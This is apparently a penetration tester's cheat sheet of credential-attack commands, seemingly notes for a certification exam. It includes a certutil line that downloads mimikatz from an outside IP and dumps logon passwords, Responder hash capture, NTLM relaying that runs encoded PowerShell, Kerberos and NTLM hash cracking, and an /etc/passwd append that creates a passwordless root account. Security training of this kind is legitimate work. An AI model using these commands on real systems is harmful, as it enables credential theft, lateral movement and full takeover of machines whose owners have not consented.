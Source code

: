 # Get
Run mimikatz non-interactively:
```powershell
cd \Users\Public ; certutil.exe -urlcache -split -f "http://192.168.45.182:8001/mimikatz.exe"; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

##### Forced authentication
Does not require high privileges, aquires NTLMv2 Hashes.
You need to connect to your kali with SMB to get the NTLMv2 hashes. For example by abusing a web application on the target or with `dir \\$tip\test` executed on it.
```bash
sudo responder -A -I tun0
```
> Do not forget the `-A`, otherwise responder could use features that are not allowed in the exam!

NTLMv2 contains a timestamp, but uncrackable hashes can still be relayed if the relayed user is local admin on the target or the latter has UAC remote restrictions disabled:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $hip -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

Get from the User-Files
```bash
grep --include "9_*" "Hash: " ./* 2>/dev/null | rev | cut -d " " -f1 | rev >> hashes.ntlm
```
# Convert
passwd -> john
```
unshadow passwd shadow > unshadowed.hash
```
SSH Key -> john
```bash
ssh2john $file > id_rsa.hash
```

# Crack
#### John
```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

For LM Hashs:
2. Run john with `--format=LM --show` and without attack type (e.g. wordlist). It will identify 2 hashes per lines, bc LM hashes can be cracked partly. Also, if it displays `????`, this part of the LM wasn't cracked yet. But it needs to.
3. Figure out capitalization of password. I've created a script to get that using the NTML Hash (did I ever test it?...). Alternatively, create wordlist file with only the found password canidate in uppercase. Run john with `--rules --format=NT --wordlist=` to get the password correctly capitalized. ![[checkLMagainstNTLM.py]]
#### Hashcat
Kerberos AS-REP
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Kerberos TGS-REP
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLM Hash
```bash
sudo hashcat -m 1000 hashes.ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLMv2 Hash
```bash
sudo hashcat -m 5600 hashes.ntlmv2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NT Hash
```bash
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```
#### If set through GPP
```bash
gpp-decrypt "$hash"
```
#### If unsalted
https://crackstation.net/

# Exploit
If `/etc/passwd` is writeable
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
Or with acutal credential
```bash
openssl passwd -1 -salt dummy dummy
```

# Identify
Hashes
`hashid $hash`
`hash-identifier`

Find credentials in source code
`~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path`
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)



#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|


